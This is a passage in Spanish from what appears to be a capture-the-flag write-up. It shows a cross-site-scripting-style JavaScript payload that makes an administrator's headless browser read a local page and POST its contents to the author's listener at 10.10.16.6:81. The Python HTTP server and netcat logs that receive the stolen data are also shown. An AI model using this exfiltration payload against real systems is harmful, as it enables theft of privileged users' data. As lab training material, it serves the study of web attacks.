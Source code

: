 El contenido de pwned.js sería el siguiente

```null
var peticion = new XMLHttpRequest();
peticion.open('GET', 'http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65', false);
peticion.send();

var respuesta = peticion.responseText;

var peticion2 = new XMLHttpRequest();
peticion2.open('POST', 'http://10.10.16.6:81/codigofuente', true);
peticion2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');

var respuestacoded = encodeURIComponent(respuesta);
peticion2.send(respuestacoded);
```

La idea es que que el administrador se tramite una petición a sí mismo para poder tener el código fuente almacenado en una variable, y posteriormente enviarme la data por POST en formato url-encode a mi equipo por otro puerto en el que voy a estar en escucha con netcat.

Por un lado recibo la petición por GET a mi servicio HTTP en python

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.25 - - [20/Jan/2023 18:09:48] "GET /pwned.js HTTP/1.1" 200 -
```

Y la data por POST en el puerto 81

```null
nc -nlvp 81
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::81
Ncat: Listening on 0.0.0.0:81
Ncat: Connection from 10.10.10.25.
Ncat: Connection from 10.10.10.25:43044.
POST /codigofuente HTTP/1.1
Referer: http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65
Origin: http://localhost:8000
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Content-Type: application/x-www-form-urlencoded
Accept: */*
Content-Length: 25116
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,*
Host: 10.10.16.6:81

```

No pongo los datos porque es mucho texto

Ahora si aplico un url-decode y lo almaceno en un archivo, tendré exactamente la misma página que el usuario Administrador
